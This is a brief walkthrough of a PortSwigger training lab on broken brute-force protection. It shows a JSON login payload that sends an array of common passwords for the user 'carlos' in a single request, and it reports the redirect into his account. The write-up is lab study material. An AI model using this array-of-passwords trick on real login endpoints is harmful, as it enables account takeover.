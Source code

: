  # brute forced!

 
 
 # ***5. Lab: Broken brute-force protection, multiple credentials per request***
 https://portswigger.net/web-security/authentication/password-based/lab-broken-brute-force-protection-multiple-credentials-per-request

 To solve the lab, brute-force Carlos's password, then access his account page

 1. make a login attempt to study process.
 note that the username and password are sent at json format. lets change the password "value" with an [array] of "values" from password list.

```
{"username":"carlos","password":[
"123456",
"password",
"12345678",
"qwerty",
..
..
"moon",
"moscow"
],"":""}
```
2. we send it via repeater and get **HTTP/1.1 302 Found** response pointing with **Location: /my-account** to **GET /my-account HTTP/1.1**

3. sending this to browser we find ourselves insede carlos account

# DONE